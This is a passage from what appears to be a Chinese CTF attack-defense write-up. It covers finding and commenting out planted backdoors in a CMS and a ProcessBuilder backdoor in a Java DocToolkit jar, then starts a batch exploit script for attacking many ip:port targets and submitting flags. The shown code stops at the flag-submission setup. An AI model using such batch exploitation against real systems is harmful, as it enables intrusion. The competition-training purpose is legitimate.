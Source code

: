 题目二 | cms
---------

D盾可以扫出后门和一些可以函数，注释掉即可。

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-5ed8af00c6926bc0909012a595dde7974c5c025f.png)

然后短时间没看出怎么打，被打了好多分?，摆了。

题目三 | DocToolkit
----------------

### processBuilder后门

同样是后门。直接打就行

修复：注释即可，由于是jar包，需要先编译出class文件再覆盖添加进去；当然直接删掉也可以。

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-585c0b364c155dbf8e83d57dce2604a9d235339c.png)

总exp（一键攻击&amp;批量保存flag到本地）
--------------------------

> 需提前将ip和port用:连接起来，格式是一行一个，例如：
> 
> 127.0.0.1:1234
> 
> 127.0.0.1:1235

```php
import requests,time,re

​

\# 提交flag的url和token等

submit\_url \= ""

submit\_token \= ""

submit\_cookie \= ""

headers \= {

    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',

    "Cookie":submit\_cookie

}

timout \= 1

​

def submit\_flag(flag):

    data \= {

        'flag':flag,

        'token':submit\_token

    }

    try:
```